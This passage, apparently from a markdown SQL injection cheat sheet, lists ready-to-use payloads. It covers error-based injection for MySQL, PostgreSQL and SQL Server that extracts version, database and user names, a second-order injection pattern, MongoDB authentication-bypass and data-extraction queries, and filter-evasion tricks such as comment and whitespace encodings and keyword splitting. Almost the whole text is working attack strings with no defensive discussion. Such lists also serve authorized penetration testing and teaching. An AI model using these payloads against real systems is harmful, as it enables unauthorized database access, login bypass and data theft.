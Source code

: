 ```sql
' AND (SELECT COUNT(*) FROM dual) AND DBMS_LOCK.SLEEP(5)--
```

### Error-Based SQL Injection
```sql
-- MySQL error-based
' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--
' AND ExtractValue(1,CONCAT(0x7e,(SELECT database()),0x7e))--
' AND UpdateXML(1,CONCAT(0x7e,(SELECT user()),0x7e),1)--

-- PostgreSQL error-based
' AND CAST((SELECT version()) AS int)--
' AND (SELECT CAST(COUNT(*) AS varchar) FROM information_schema.tables)--

-- SQL Server error-based
' AND CONVERT(int,(SELECT @@version))--
' AND CAST((SELECT name FROM master..sysdatabases WHERE dbid=1) AS int)--
```

## 🔥 Advanced SQL Injection Techniques

### Second-Order SQL Injection
```sql
-- Registration phase (stored payload)
Username: admin'/*
Password: password

-- Activation phase (payload executes)
-- The stored payload combines with new query to create injection
```

### NoSQL Injection (MongoDB)
```javascript
// Authentication bypass
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$regex": ".*"}, "password": {"$regex": ".*"}}

// Data extraction
{"username": {"$regex": "^admin"}, "password": {"$ne": null}}
{"$where": "this.username == 'admin' && this.password.length > 0"}
```

### Filter Bypass Techniques
```sql
-- Comment variations
/*comment*/
--comment
#comment
;%00

-- Space bypass
/**/
%20
%09
%0a
%0b
%0c
%0d
%a0

-- Keyword bypass
UNION -> UN/**/ION
```